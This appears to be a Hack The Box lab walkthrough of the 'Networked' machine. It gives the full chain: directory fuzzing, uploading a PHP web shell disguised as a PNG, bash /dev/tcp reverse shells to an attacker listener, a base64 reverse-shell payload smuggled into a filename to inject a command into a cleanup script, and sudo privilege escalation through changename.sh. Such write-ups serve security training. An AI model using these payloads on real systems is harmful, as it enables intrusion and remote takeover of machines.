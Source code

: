 # Exploiting the HTB “Networked” Box: From Recon to Root

## HTB - Networked Walkthrough

**Category**: Web Exploitation, Privilege Escalation\
**Tags**: #cybersecurity

***

### 🕵️ Initial Recon

* Service found: **SSH**
* Version: **OpenSSH 7.4**
* Possible exploit: [CVE-2016-10012](https://www.exploit-db.com/exploits/40963)

```bash
wfuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://10.10.10.146/FUZZ
```

* Found and extracted `backup.tar` archive.
* Inside: `upload.php` code with weak validation.

***

### 📤 File Upload Vulnerability

* The upload logic checks only:
  * MIME type
  * File extension

**Request (Burp Suite)**

```http
POST /upload.php HTTP/1.1
Host: 10.10.10.146
Content-Length: 329
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.10.146
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryRKXbcJxOmo3AUCu7
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.10.146/upload.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryRKXbcJxOmo3AUCu7
Content-Disposition: form-data; name="myFile"; filename="test.php.png"
Content-Type: image/png

PNG

	
<?php
system($_REQUEST['cmd']);
?>
------WebKitFormBoundaryRKXbcJxOmo3AUCu7
Content-Disposition: form-data; name="submit"

go!
------WebKitFormBoundaryRKXbcJxOmo3AUCu7--
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🐚 Reverse Shell Access

* Used `nc` on Parrot OS:

```bash
nc -lvnp 4444
```

* Burp request:

```http
GET /uploads/10_10_14_8.php.png?cmd=bash+-i+>%26+/dev/tcp/10.10.14.8/4444+0>%261 HTTP/1.1
Host: 10.10.10.146
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

```

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

### 🧼 File Cleanup Script Vulnerability

* In `guly`'s home directory, a script was auto-deleting files not matching an IP regex.

```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

* This allows **command injection**.
*

    <figure><img src="../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
* made a reverse shell

```
echo "bash -i >& /dev/tcp/10.10.14.8/4445 0>&1" | base64
```

```
touch -- ';echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0NDUgMD4mMQo=" | base64 -d | bash'
```

* gully can run the following

#### Reproduction

```bash
touch -- ';echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0NDUgMD4mMQo=" | base64 -d | bash'
```

***

### ⚙️ Privilege Escalation via `changename.sh`

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
    echo "interface $var:"
    read x
    while [[ ! $x =~ $regexp ]]; do
        echo "wrong input, try again"
        echo "interface $var:"
        read x
    done
    echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```

* Vulnerability: passes user-controlled input to a script executed with root privileges.

#### Exploit:

```bash
echo 'bash -p' > /tmp/payload
chmod +x /tmp/payload

sudo /usr/local/sbin/changename.sh
```

When prompted:

```
interface NAME:
guly0
interface PROXY_METHOD:
none
interface BROWSER_ONLY:
no
interface BOOTPROTO:
none /tmp/payload
```

Executes `/tmp/payload` as root.

* as said in this Blog post if a space is given this is executed everything after the space as root
  * https://seclists.org/fulldisclosure/2019/Apr/24

***

### 🧠 Lessons

* Never trust user input — always sanitize and validate properly.
* File upload protections should go beyond MIME and extension.
* Never directly pass input to shell commands without sanitization.

***

### 🔗 References

* [Full Disclosure - changename.sh bug](https://seclists.org/fulldisclosure/2019/Apr/24)
* [YouTube Walkthrough](https://www.youtube.com/watch?v=H3t3G70bakM)
* https://seclists.org/fulldisclosure/2019/Apr/24
* [https://www.hackthebox.com/achievement/machine/409699/203](https://www.hackthebox.com/achievement/machine/409699/203)
